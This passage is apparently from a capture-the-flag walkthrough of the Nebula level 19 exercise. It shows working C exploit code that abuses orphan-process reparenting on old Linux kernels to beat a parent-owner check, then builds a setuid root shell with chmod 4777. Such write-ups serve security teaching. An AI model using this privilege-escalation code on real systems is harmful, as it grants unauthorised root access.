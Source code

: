 ```c
  }

  printf("You are unauthorized to run this program\n");
}
```

The program checks if the parent PID belongs to root and starts the shell
only if it does.

The key to bypassing this check is the fact that on old Linux systems
(pre 3.4 kernel) the PPID of an orphaned process is set to the `init`
process which is owned by the root user.

```shell
level19@nebula:~$ uname -a
Linux nebula 3.0.0-12-generic #20-Ubuntu SMP Fri Oct 7 14:50:42 UTC 2011 i686 i686 i386 GNU/Linux
```

We simply have to write a program that executes the `flag19` binary and kills
the parent process before the `flag19` binary runs.

First, we prepare our `shell.c`:

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

Next, we write our exploit code that forks a child process, sleeps the child
process until the parent process exits, then runs the `flag19` binary to
compile our `shell.c` code.

```c
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {

    pid_t child = fork();
    if (child == 0) {
        sleep(3);
        char *args[] = {"/bin/sh", "-c", "gcc /home/level19/shell.c -o /home/flag19/shell; chmod 4777 /home/flag19/shell", NULL};
        execve("/home/flag19/flag19", args, envp);
    }

    return 0;
}
```
